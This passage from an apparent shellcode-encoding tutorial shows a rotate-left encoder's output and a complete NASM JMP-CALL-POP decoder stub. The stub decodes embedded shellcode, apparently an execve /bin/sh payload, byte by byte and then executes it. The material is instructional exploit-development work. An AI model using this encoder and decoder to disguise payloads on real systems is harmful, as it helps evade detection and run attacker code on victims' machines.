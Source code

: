 + The new encoded shellcode is output in both the `\x` format and the `0x, ` format.  
+ As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the `shellcode` array.  

#### Executing the Encoder
```bash
root# python rotateLeftEncoder.py
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc
\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   

0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,\
0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,\
0x16,0x9b,0x01
Len: 25
# Add 0xff to the end of the payload
```
+ Our encoded shellcode payload is `25 bytes`. 
+ We will need to add a final byte to the end `0xff`.  
  - This byte will be used by our decoder to let it know it has reached the end of our payload.  
+ We will copy the second output with the `0x, ` format, to our nasm program after appending the byte.  

## Decoding the Payload
+ This assembly program will use the `JMP|Call|POP` technique to put the memory location of our encoded string into the ESI Register.
+ Once in the ESI Register, we will decode our payload byte-by-byte.

#### The Decoder
```nasm
; Filename: rotateRightDecoder.nasm
; Author:   boku

global _start

section .text
_start:
  jmp short call_decoder ; 1. jump to where the shellcode string is

decoder: 
  pop esi                ; 3. Put string location in esi register

decode:
  ror byte [esi], 1      ; 4. decode the byte by bitwise rotate right
  cmp byte [esi], 0xFF   ; 5. Is this the last byte?
  je Shellcode           ;    - If so jump into the payload and execute
  inc esi                ; 6. Not end? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
        
call_decoder:
  call decoder           ; 2. Put the mem location of the string on the stack
  Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,\
      0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,\
      0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,\
      0x16,0x9b,0x01,0xff
```
+ The instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.  
+ `ror byte [esi], 1` 
  - rotate to the right one bit, one byte at a time, 
+ If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`.
+ If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored.   
+ Now that both the decoder and encoder are created, the last thing to do is compile and test.  
